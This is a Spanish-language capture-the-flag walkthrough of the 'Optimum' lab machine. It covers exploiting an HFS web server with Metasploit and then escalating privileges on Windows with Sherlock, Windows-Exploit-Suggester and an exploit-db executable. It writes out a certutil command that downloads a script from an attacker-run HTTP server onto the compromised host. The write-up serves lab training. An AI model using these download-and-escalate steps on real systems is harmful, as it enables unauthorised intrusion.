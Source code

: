 # 7 - Optimum - Manual escalation \(win\_med\)

Solo teniamos el puerto 80 abierto con este modulo. Se llama servidor de transferencia HFS

![](../../.gitbook/assets/imagen%20%28584%29.png)

## Exploit

Primer resultado de metasploit nos lleva a una shell de usuario

![](../../.gitbook/assets/imagen%20%28579%29.png)

### Suggestor for post exploit

Utilizaremos un suggestor para que nos ayude a escalar

![](../../.gitbook/assets/imagen%20%28572%29.png)

![](../../.gitbook/assets/imagen%20%28577%29.png)

### Manual privilege scalation

{% embed url="https://github.com/rasta-mouse/Sherlock" %}

De ahi sacamos el script ps1, luego lo levantamos en un python http simple y lo llevamos a la otra consola de windows que queremos escalar

![](../../.gitbook/assets/imagen%20%28578%29.png)

```text
certutil -urlcache -f ip/archivo.ps1 nombreacrhivo 
```

### Desde la vulnerable

![](../../.gitbook/assets/imagen%20%28570%29.png)

### Windwos exploit suggester

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

Aqui en el medio lo que hacemos es conseguir la sys info y ponerla en un archivo. Para eso desde consola simplemente ponemos **systeminfo** y ponerla en un archivo de texto.

```text
$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```

La database de python se obtiene luego de hacer el update 

![](../../.gitbook/assets/imagen%20%28573%29.png)

Tras eso nos sguiere vulnerabilidades. Llegamos a una ejecutable desde este codigo

{% embed url="https://www.exploit-db.com/exploits/41020" %}

Con este lo bajamos, transferimos con lo mencionado del simple http de python y ejecutamos.

![](../../.gitbook/assets/imagen%20%28581%29.png)

